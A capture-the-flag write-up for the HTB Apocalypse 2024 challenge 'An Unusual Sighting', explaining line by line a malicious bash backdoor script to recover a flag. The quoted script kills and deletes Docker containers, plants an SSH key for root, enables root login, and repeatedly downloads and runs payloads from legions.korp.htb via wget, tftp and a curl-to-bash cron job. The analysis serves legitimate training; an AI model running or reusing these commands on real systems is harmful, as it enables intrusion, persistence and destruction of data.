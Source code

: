 ```yaml
---
layout: default
title: An Unusual Sighting
parent: HTB Apocalypse 2024
nav_order: 2
---
```


This challenge provides just a single bash script. Taking a quick look at this script, it appears to be a targeted backdoor for a single system. More specifically, it does tha following:

It starts with a shebang(`#!`) which allows it to be run with `./script.sh` instead of `/bin/sh script.sh`

```
#!/bin/sh
```

Next, it makes sure that the name of the machine is "KORP-STATION-013" before continuing

```
if [ "$HOSTNAME" != "KORP-STATION-013" ]; then
    exit
fi
```

It also ensures that the effective user ID (what programs are run as) is root

```
if [ "$EUID" -ne 0 ]; then
    exit
fi
```

Next, it gets the container ID of all running containers and stops them before removing all containers.

```
docker kill $(docker ps -q)
docker rm $(docker ps -a -q)
```

The following chunk does a couple things to set up the machine for a backdoor. It starts by adding a key that can be used for ssh access from a user on tS_u0y_ll1w{BTH (the first part of the flag reversed). After that, it makes sure it's resolving domain names using Google's DNS. Then, it allows a user to login as root over ssh, lastly, it adds a local DNS resolution for legions.korp.htb.

```
echo "ssh-rsa AAAAB4NzaC1yc2EAAAADAQABAAABAQCl0kIN33IJISIufmqpqg54D7s4J0L7XV2kep0rNzgY1S1IdE8HDAf7z1ipBVuGTygGsq+x4yVnxveGshVP48YmicQHJMCIljmn6Po0RMC48qihm/9ytoEYtkKkeiTR02c6DyIcDnX3QdlSmEqPqSNRQ/XDgM7qIB/VpYtAhK/7DoE8pqdoFNBU5+JlqeWYpsMO+qkHugKA5U22wEGs8xG2XyyDtrBcw10xz+M7U8Vpt0tEadeV973tXNNNpUgYGIFEsrDEAjbMkEsUw+iQmXg37EusEFjCVjBySGH3F+EQtwin3YmxbB9HRMzOIzNnXwCFaYU5JjTNnzylUBp/XB6B user@tS_u0y_ll1w{BTH" >> /root/.ssh/authorized_keys
echo "nameserver 8.8.8.8" >> /etc/resolv.conf
echo "PermitRootLogin yes" >> /etc/ssh/sshd_config
echo "128.90.59.19 legions.korp.htb" >> /etc/hosts
```

Next, the script looks for a list of running programs, and kills any program that matches an entry on that list.

```
for filename in /proc/*; do
    ex=$(ls -latrh $filename 2> /dev/null|grep exe)
    if echo $ex |grep -q "/var/lib/postgresql/data/postgres\|atlas.x86\|dotsh\|/tmp/systemd-private-\|bin/sysinit\|.bin/xorg\|nine.x86\|data/pg_mem\|/var/lib/postgresql/data/.*/memory\|/var/tmp/.bin/systemd\|balder\|sys/systemd\|rtw88_pcied\|.bin/x\|httpd_watchdog\|/var/Sofia\|3caec218-ce42-42da-8f58-970b22d131e9\|/tmp/watchdog\|cpu_hu\|/tmp/Manager\|/tmp/manh\|/tmp/agettyd\|/var/tmp/java\|/var/lib/postgresql/data/pоstmaster\|/memfd\|/var/lib/postgresql/data/pgdata/pоstmaster\|/tmp/.metabase/metabasew"; then
        result=$(echo "$filename" | sed "s/\/proc\///")
        kill -9 $result
        echo found $filename $result
    fi
done
```

Next to last, it ensures that the architecture of the system is one of x86, x86_64, mips, aarch64, or arm.

```
ARCH=$(uname -m)
array=("x86" "x86_64" "mips" "aarch64" "arm")

if [[ $(echo ${array[@]} | grep -o "$ARCH" | wc -w) -eq 0 ]]; then
  exit
fi
```

Lastly, it locates a directory it can access, downloads a variety of scripts, runs them, and adds a cron job to run one every 5 minutes. In the cron job, it also has a base64 encoded part of the flag (4nd_y0uR_Gr0uNd!!})

```
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777 0xda4.0xda4.$ARCH; ./0xda4.0xda4.$ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; tftp legions.korp.htb -c get 0xda4.0xda4.$ARCH; cat 0xda4.0xda4.$ARCH > DVRHelper; chmod +x *; ./DVRHelper $ARCH; 
cd /tmp || cd /var/ || cd /mnt || cd /root || cd etc/init.d  || cd /; busybox wget http://legions.korp.htb/0xda4.0xda4.$ARCH; chmod 777;./0xda4.0xda4.$ARCH;
echo "*/5 * * * * root curl -s http://legions.korp.htb/0xda4.0xda4.$ARCH | bash -c 'NG5kX3kwdVJfR3IwdU5kISF9' " >> /etc/crontab
```

Combining the two parts of the found flag gets: HTB{w1ll_y0u_St4nd_y0uR_Gr0uNd!!}